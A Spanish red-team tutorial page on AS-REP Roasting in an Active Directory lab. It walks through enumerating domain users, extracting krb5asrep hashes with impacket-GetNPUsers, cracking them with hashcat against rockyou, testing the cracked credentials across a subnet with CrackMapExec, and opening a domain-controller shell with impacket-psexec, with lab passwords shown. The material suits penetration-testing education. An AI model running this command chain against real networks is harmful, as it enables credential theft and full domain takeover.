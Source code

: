 ```yaml
---
description: >-
  Este ataque se aprovecha de los usuarios que tienen activa la opción de "No
  requiere preautenticación de Kerberos".
---
```


# AS\_REP ROASTING

## INTRODUCCIÓN

{% hint style="info" %}
Este ataque está relacionado a las [malas prácticas](https://ajcruz15.gitbook.io/red-team/active-directory-hacking/creando-un-laboratorio-de-ad/3.-misconfiguraciones-importantes):

* **2. Desactivar el Firewall de Windows.**
* **3. Desactivar las protecciones del Antivirus de Windows Defender.**
* **5. Asignar un SPN al usuario creado.**
* **9. Marcar la Opción "No requiere preautenticación de Kerberos".**
{% endhint %}

### Esquema de trabajo

Vamos a explotar el siguiente esquema.

En una red empresarial no hemos conseguido acceso a ningún activo por ahora, sin embargo, tenemos unos credenciales de usuario sin privilegios \(vgarcia:Password2\). Como parte de nuestra rutina tratamos de explotar un AS\_REP Roasting.

{% hint style="info" %}
La base de este ataque está en usuarios que tengan activa la Opción "No requiere preautenticación de Kerberos". Esto hace que el protocolo Kerberos expida un Ticket-Granting Ticket en nombre de dicho usuario sin comprobar su identidad.

Por tanto, cualquiera puede solicitar un **KRB\_AS\_REQ** en nombre del usuario y Kerberos devolverá un **KRB\_AS\_REP** que, recordemos, incluye una **Session Key** que está encriptado con el secreto del usuario.

Por tanto, tenemos el Hash krb5asrep del usuario que podemos crackear facilmente, siempre y cuando la contraseña no sea muy robusta.
{% endhint %}

Para entender más en profundidad estos conceptos puede leer el siguiente artículo:

{% page-ref page="../conceptos/conceptos-importantes-antes-de-continuar.md" %}

### Herramientas necesarias

#### RPCClient

Herramienta para ejecutar el cliente de MS-RPC. Viene instalada por defecto en Linux.

{% embed url="https://web.mit.edu/darwin/src/modules/samba/docs/htmldocs/rpcclient.1.html" caption="" %}

#### CrackMapExec <a id="crackmapexec"></a>

Es una herramienta de post-explotación que se aprovecha de protocolos y características propias de los entornos de Directorio Activo para obtener una gran cantidad de información sobre los mismos.

Utiliza **Impacket** y **Powersploit Toolkit**

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" caption="" %}

#### **Impacket**

Es una colección de clases de Python para trabajar con protocolos de red. Está pensada para obtener control a bajo nivel de los paquetes utilizados por algunos protocolos y, en algunos casos como SMBv1, la propia implementación del protocolo en sí mismo.

Concretamente para este ataque vamos a utilizar **impacket-GetNPUsers**

{% embed url="https://github.com/SecureAuthCorp/impacket" caption="" %}

#### PowerSploit Toolkit <a id="powersploit-toolkit"></a>

Es una colección de scripts de Powershell orientados a ayudar a pentesters en su proceso. Éste repositorio se encuentra deprecated.

{% embed url="https://github.com/PowerShellMafia/PowerSploit" caption="" %}

#### Hashcat <a id="hashcat"></a>

Es el crackeador de hashes más rápido del mundo actualmente. Puede aprovecharse de la pontecia de una GPU.

{% embed url="https://github.com/hashcat/hashcat" caption="" %}

#### **Resumen**

* Vamos a comprobar si existen usuarios con la opción "No requiere preautenticación de Kerberos" activada y a obtener sus TGTs.
* Vamos a crackear estos TGTs.
* Vamos a comprobar el alcance de los credenciales obtenidos.
* Vamos a acceder con una shell interactiva.

## EXPLOIT

### 1. Comprobar usuarios NP

Lo primero que debemos hacer es obtener los usuarios que tiene el Active Directory.

Con **rpcclient** podemos enumerar los usuarios del AD facilmente:

`rpcclient -U "vgarcia" -W hackpoc 192.168.1.100 -c enumdomusers`

![Obteniendo los usuarios de un Dominio.](../../.gitbook/assets/as_rep1.png)

Los guardamos en un archivo users.txt \(Para acelerar el proceso podemos utilizar el siguiente oneliner:

`echo "Copiamos la salida del comando anterior" | grep '\[.*?\]' | grep -v '0x' | tr -d '[]'`

Una vez lo tenemos almacenados utilizamos impacket-GetNPUsers para comprobar cuantos de estos tienen la opción NP activa:

`impacket-GetNPUsers hackpoc/ -usersfile users.txt -format hashcat -outputfile as_rep.txt`

![Hash krb5asrep conseguido](../../.gitbook/assets/as_rep2%20%281%29.png)

### 2. Crackear el Hash

A continuación tratamos de crackear el Hash utilizando Hashcat \(aunque tambien se puede utilizar john\).

1. Para averiguar el modo en el que trabaja hashcat con estos hashes sacamos: `hashcat --example-hashes | grep "krb5asrep" -B 2` 
2. Utilizamos hashcat para crackear el hash. `hashcat -m 18200 -a 0 as_rep.txt /usr/share/wordlists/rockyou.txt`

![Contrase&#xF1;a crackeada SVC-SQLService:MYpassword123\#](../../.gitbook/assets/as_rep3.png)

### 3. Comprobar alcance de credenciales

Utilizamos CrackMapExec para comprobar si los credenciales obtenidos tienen capacidad de PSExec con alguno de los activos de la empresa.

`cme smb 192.168.1.0/24 -u "SVC-SQLService" -p "MYpassword123#"`

![El usuario SVC-SQLService es administrador de dominio &#xA1;Premio!](../../.gitbook/assets/as_rep4.png)

### 4. shell interactiva con el DC

El usuario que hemos obtenido es un usuario administrador de dominio por lo que ahora tenemos capacidad de PSExec al DC.

`impacket-psexec hackpoc/SVC-SQLService:MYpassword123#@192.168.1.100 cmd.exe`

![&#xA1;Premio!](../../.gitbook/assets/imagen%20%2883%29.png)

## REFERENCIAS

{% embed url="https://en.hackndo.com/kerberos-asrep-roasting/%0Ahttps://www.youtube.com/watch?v=KYFlvFfh-Js&list=PLlb2ZjHtNkpg2Mc3mbkdYAhEoqnMGdl2Z&index=2" caption="" %}

